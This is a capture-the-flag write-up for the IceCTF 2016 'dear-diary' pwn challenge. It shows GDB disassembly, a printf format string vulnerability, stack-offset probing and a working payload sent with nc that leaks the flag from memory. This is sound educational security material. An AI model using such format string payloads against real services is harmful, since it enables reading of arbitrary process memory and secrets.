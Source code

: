 # IceCTF-2016 : dear-diary-60

**Category:** Pwn
**Points:** 60
**Description:**

We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. nc diary.vuln.icec.tf 6501download file

## Writeup

Looking around the binary with GDB we can find that:
- the function `flag()` is called at the start of `main()` and it reads content from `./flag.txt` file.
- `print_entry` suffers of a string format vulnerability that allow us to read arbitrary memory addresses.

```sh
[dom28:ago:16 20:22:46] phra@kali ~/ctf/write-ups-2016 $ gdb ./dear_diary
(gdb) set disassembly-flavor intel
(gdb) disas print_entry 
Dump of assembler code for function print_entry:
   0x08048721 <+0>:     push   ebp
   0x08048722 <+1>:     mov    ebp,esp
   0x08048724 <+3>:     sub    esp,0x28
   0x08048727 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804872a <+9>:     mov    DWORD PTR [ebp-0x1c],eax
   0x0804872d <+12>:    mov    eax,gs:0x14
   0x08048733 <+18>:    mov    DWORD PTR [ebp-0xc],eax
   0x08048736 <+21>:    xor    eax,eax
   0x08048738 <+23>:    mov    eax,DWORD PTR [ebp-0x1c]
   0x0804873b <+26>:    mov    DWORD PTR [esp],eax
   0x0804873e <+29>:    call   0x8048490 <printf@plt>
   0x08048743 <+34>:    mov    eax,ds:0x804a080
   0x08048748 <+39>:    mov    DWORD PTR [esp],eax
   0x0804874b <+42>:    call   0x80484a0 <fflush@plt>
   0x08048750 <+47>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048753 <+50>:    xor    eax,DWORD PTR gs:0x14
   0x0804875a <+57>:    je     0x8048761 <print_entry+64>
   0x0804875c <+59>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048761 <+64>:    leave  
   0x08048762 <+65>:    ret    
End of assembler dump.
(gdb) 
```
`*print_entry+29` calls `printf()` with only one argument, a `char*` pointer to a string that we control.

Now we need the address of the flag, so let\'s disassemble `flag()` function.

```sh
(gdb) disas flag 
Dump of assembler code for function flag:
   0x0804863d <+0>:     push   ebp
   0x0804863e <+1>:     mov    ebp,esp
   0x08048640 <+3>:     sub    esp,0x28
   0x08048643 <+6>:     mov    eax,gs:0x14
   0x08048649 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804864c <+15>:    xor    eax,eax
   0x0804864e <+17>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048656 <+25>:    mov    DWORD PTR [esp],0x8048940
   0x0804865d <+32>:    call   0x8048500 <open@plt>
   0x08048662 <+37>:    mov    DWORD PTR [ebp-0x10],eax
   0x08048665 <+40>:    mov    DWORD PTR [esp+0x8],0x100
   0x0804866d <+48>:    mov    DWORD PTR [esp+0x4],0x804a0a0
   0x08048675 <+56>:    mov    eax,DWORD PTR [ebp-0x10]
   0x08048678 <+59>:    mov    DWORD PTR [esp],eax
   0x0804867b <+62>:    call   0x8048480 <read@plt>
   0x08048680 <+67>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048683 <+70>:    xor    eax,DWORD PTR gs:0x14
   0x0804868a <+77>:    je     0x8048691 <flag+84>
   0x0804868c <+79>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048691 <+84>:    leave  
   0x08048692 <+85>:    ret    
End of assembler dump.
```

So the address of the buffer where the flag is loaded is at `0x804a0a0`.
Now we need to find in the stack where to put the address value.

```sh
> [dom28:ago:16 20:54:58] phra@kali ~/ctf/icectf/diary $ echo -ne "1\nAABB%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x\n2\n3\n" | ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AABBf75fa836|f7771000|ffc751b8|ffc765b8|0|a|84e1a800|0|0|ffc765c8|804888c|ffc751b8|4|f7771c20|0|0|1|42424141

1. add entry
2. print latest entry
3. quit
```
We can insert an arbitrary value on the stack and then trigger the format string vulnerability. Let's do it.

### PAYLOAD EXAMPLE
```
                   1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n
                       ^^^^^^^^^^^^^^^                                ^^
                       |||||||||||||||                                ||
                       |_______________________________________________|
                    address of flag                     format string exploitation
```

### EXPLOITING:
```sh
> [lun22:ago:16 00:48:01] phra@kali ~/ctf/icectf/diary $ echo -ne "1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n" | nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
>-2353853267122949880488228771336605507975940228259531131213483876911033610747119179881566931135505952160644480871830309847003193621900077982680289929588490075567303710965080432136832255512352674224129626420279574654921909982545998909142624828095873782519863311234760704.000000ffd440a8ffd454a80a6df56b0000ffd454b8804888cffd440a84f7724c20001IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```
We have found the flag `IceCTF{this_thing_is_just_sitting_here}`.

## Other write-ups and resources

* https://github.com/Alpackers/CTF-Writeups/tree/master/2016/IceCTF/Stage_2/DearDiary
* https://github.com/EspacioTeam/write-ups/tree/master/2016/icectf/Dear%20diary
* https://github.com/1amtom/writeups/tree/master/2016-08-16-IceCTF/pwn-60-dear-diary
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/Dear_diary-Pwn-60.txt
* https://github.com/WCSC/writeups/tree/master/icectf-2016/dear_diary
* [Japanese](https://ctftime.org/writeup/3813)

